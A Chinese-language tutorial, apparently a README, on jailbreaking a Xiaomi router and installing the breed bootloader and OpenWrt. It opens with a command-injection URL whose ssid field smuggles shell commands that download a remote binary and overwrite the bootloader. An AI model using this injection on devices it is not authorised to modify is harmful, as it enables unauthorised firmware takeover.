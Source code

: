 ```html
http://192.168.31.1/cgi-bin/luci/;stok=CCCCCCCCCCC/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=%0Acd%20%2Ftmp%0Acurl%20-o%20B%20-O%20https%3A%2F%2Fbreed.hackpascal.net%2Fr1286%2520%255b2020-10-09%255d%2Fbreed-mt7621-xiaomi-r3g.bin%20-k%20-g%0A%5B%20-z%20%22%24(sha256sum%20B%20%7C%20grep%20242d42eb5f5aaa67ddc9c1baf1acdf58d289e3f792adfdd77b589b9dc71eff85)%22%20%5D%20%7C%7C%20mtd%20-r%20write%20B%20Bootloader%0A
```

成功显示code:0后，60秒就会自动重启进breed，指示灯会从正常灯变异常灯，异常灯变正常灯，我这里不说颜色，因为每个路由器的指示灯不一样。

想刷不死breed的自行学习，链接放底端，

成功进去breed后，

固件更新->勾选固件，选择文件(openwet-ramips-mt7621-xiaomi....sysupgrade.bin)

同理其他的，如果有就勾选，并且选择相应的文件

kernel文件就选...kernel.bin，kernel1文件就选...kernel1.bin

勾选完后，闪存布局可以是自动检测，也可以选你的路由器型号

重启

注:如果想回原厂系统，路由器断电，用卡针顶住reset，然后接电，长顶5秒后，看到灯闪烁，就可以松开了，进入breed，选择固件更新，选择原厂固件miwifi_rm2100_firmware_d6asd_breed.bin，可以参考这个格式，闪存布局选择原厂，上传

如果你是小米的，先进环境变量山变量，删除这一行

| nomal_firware_md5 | ************ |
| ----------------- | ------------ |



--------------------

## 配置规则

如果你刷成功了，并且到了这一步，恭喜你，距离不远了

路由器重启后，进入OpenWrt,一般网址是192.168.1.1，不知道的可以开cmd看网络配置，输入ipv4地址也可以进，用户名和密码默认是

| root | password |
| ---- | -------- |

----------

## 防检测配置

### NTP服务器

进入 系统设置, 勾选 `Enable NTP client（启用 NTP 客户端）`和 `Provide NTP server`（作为 NTP 服务器提供服务）

NTP server candidates（候选 NTP 服务器）四个框框分别填写 `ntp1.aliyun.com`、`time1.cloud.tencent.com`、`stdtime.gov.hk` 、`pool.ntp.org`

| ntp1.aliyun.com         |
| ----------------------- |
| time1.cloud.tencent.com |
| stdtime.gov.hk          |
| pool.ntp.org            |
